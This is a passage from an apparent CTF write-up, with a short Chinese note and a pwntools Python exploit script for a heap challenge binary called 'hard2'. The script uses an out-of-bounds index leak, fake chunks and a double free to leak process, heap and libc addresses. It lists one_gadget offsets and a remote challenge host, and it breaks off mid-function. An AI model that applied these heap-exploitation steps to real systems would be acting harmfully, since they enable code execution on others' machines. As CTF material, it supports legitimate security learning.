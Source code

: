 再来一次double free，覆写pFunc为one_gadget即可


### 17.py

```py
#coding=utf-8
from pwn import *
import commands
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./hard2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    p = process('./hard2')
else:
    p = remote('111.33.164.4',50010)

def Create(content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('content: ')
    p.sendline(content)

def Show(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('id: ')
    p.sendline(str(index))

def Free(index):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('id: ')
    p.sendline(str(index))

def exp():
    #show proc base
    Show(str(0xffffffff-18))
    p.recvuntil('context: ')
    proc_base = u64(p.recv(6).ljust(8,'\x00'))
    log.success('proc base => ' + hex(proc_base))
    # add
    for i in range(0x30):
        Create(p64(0)+p64(0x21))
    for i in range(0xd):
        Free(0)#fake size 0x21

    #overwrite cnt
    Free(0xffffffff-4)
    #double free
    Free(0x2e)
    Show(0x2e)

    #leak heap
    p.recvuntil('context: ')
    heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0x180
    log.success('heap base => ' + hex(heap_base))
    #leak libc
    Free(0)
    Free(0x2e)
    Free(0xffffffff-5)#to add more
```